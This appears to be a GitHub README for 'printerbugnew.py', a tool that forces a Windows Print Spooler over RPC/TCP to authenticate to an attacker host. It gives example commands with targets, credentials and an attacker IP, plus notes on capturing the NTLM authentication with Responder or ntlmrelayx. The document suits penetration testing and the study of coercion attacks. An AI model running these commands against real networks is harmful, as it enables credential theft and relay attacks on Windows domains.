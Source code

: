 # Pure RPC over TCP Printer Spooler Trigger
## For Windows 11 22H2+ / Windows Server 2025


## Usage
```
printerbugnew.py <target_host> [username] [password] [domain] [attacker_host] [tcp_port]
```

## Examples

### Anonymous connection
```bash
printerbugnew.py 192.168.1.100
```

### With credentials
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN
```

### Trigger backconnect to different host (attacker)
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50
```

### Use specific RPC port
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50 49152
```

## Notes
- Target must be Windows 11 22H2+ or Server 2025 (RPC over TCP default)
- For older versions, spoolss uses RPC over Named Pipes (SMB)
- Ensure ports 135 and dynamic RPC ports (49152-65535) are open
- Start Responder or ntlmrelayx on remote_host to capture auth
- Kerberos fails in this case due to a bad SPN from the spooler, forcing NTLM fallback.
- Find the target spooler’s RPC/TCP port by querying the target Endpoint Mapper (EPM) on TCP/135 for the interface UUID 12345678-1234-abcd-ef00-0123456789ab. You can use rpcdump.py, PortQry, or any tool you prefer - or just implement the EPM lookup directly in this code ;)
- Based on https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
